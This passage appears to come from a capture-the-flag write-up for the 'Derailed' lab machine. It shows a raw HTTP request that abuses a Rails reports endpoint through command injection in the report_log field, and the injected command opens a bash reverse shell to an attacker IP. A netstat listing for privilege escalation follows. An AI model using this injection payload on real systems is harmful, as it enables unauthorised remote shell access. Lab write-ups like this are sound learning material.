 ## Shell

We get our foothold by abusing the Kernel-level Open Function 

```http
POST /administration/reports HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/administration
Content-Type: application/x-www-form-urlencoded
Content-Length: 171
Origin: http://derailed.htb:3000
DNT: 1
Connection: close
Cookie: _simple_rails_session=htXtRmBmBp4Vd8bqt51W5qrqjLy8fP1MGGfhBXNnt0wNGYuEZbD4RjpOgHXbn2SFKQ1LuwDExnFxzhX36wiEC5W43wBRLFYR2zImtAaRMxH7CRcofk91ZOtUSXPzt10kG33c6D529pZt%2BPOj%2Fs7741SikfeM4GLK%2FeM6wEOCShSfd08xBgHrt3dW1kccUInW1S87QhIFGpmOTxSOQSpzjVODTwpJI0G3D%2B%2BVKot7xo4d%2FZbZpDGFfFlkt9qDeN63tC%2BSNOh6UaB0cH6unfDuRETUkcOyNQuHA7sVoeR4VEhVoEgojM9aS8JRx2Sq--XRvklENQh2bhVtne--d%2F%2F1Hil3FqfPliTPAUgpBQ%3D%3D
Upgrade-Insecure-Requests: 1

authenticity_token=rDJYaCPl2HYD84bjdp8F7RZBX3qLnGGRjer8M-jgC2pfSN3VXaHRnZfENBfDw1glbiUJSTt3fq1jI6yVarqISw&report_log=|bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.135/4000+0>%261'
```

# Privilege Escalation

## Local Enumeration

While poking around we already detected that `openmediavault` is installed

```bash
netstat -tlpn
```

```bash
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:53393         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:3000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:38547         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp        0      0 10.129.254.29:5357      0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3003          0.0.0.0:*               LISTEN      803/puma 5.6.4 (tcp 
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::111                  :::*                    LISTEN      -                   
```